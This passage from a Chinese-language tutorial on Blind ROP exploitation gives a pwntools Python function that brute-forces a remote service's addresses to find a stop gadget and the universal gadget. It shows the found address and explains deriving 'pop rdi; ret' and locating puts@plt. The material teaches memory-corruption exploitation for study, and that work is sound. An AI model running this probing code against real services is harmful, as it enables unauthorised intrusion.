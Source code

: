 ```
```

#### common gadget
有了 stop gadget，那些原本会导致程序崩溃的地址还是一样会导致崩溃，但那些正常返回的地址则会通过 stop gadget 进入被挂起的状态。下面我们就可以寻找其他可利用的 gadget，由于是 64 位程序，可以考虑使用通用 gadget（有关该内容请参见章节4.7）：
```python
def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("find address: 0x%x" % addr)
            try:    # check
                payload  = "A"*buf_size
                payload += p64(addr)
                payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                p = remote('127.0.0.1', 10001)
                p.recvline()
                p.sendline(payload)
                p.recvline()
                p.close()
                log.info("bad address: 0x%x" % addr)
            except:
                p.close()
                log.info("gadget address: 0x%x" % addr)
                return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
直接从 stop gadget 的地方开始搜索就可以了。另外，找到一个正常返回的地址之后，需要进行检查，以确定是它确实是通用 gadget。
```
[*] gadget address: 0x40082a
```
有了通用 gadget，就可以得到 `pop rdi; ret` 的地址了，即 gadget address + 9。

#### puts@plt
plt 表具有比较规整的结构，每一个表项都是 16 字节，而在每个表项的 6 字节偏移处，是该表项对应函数的解析路径，所以先得到 plt 地址，然后 dump 出内存，就可以找到 got 地址。
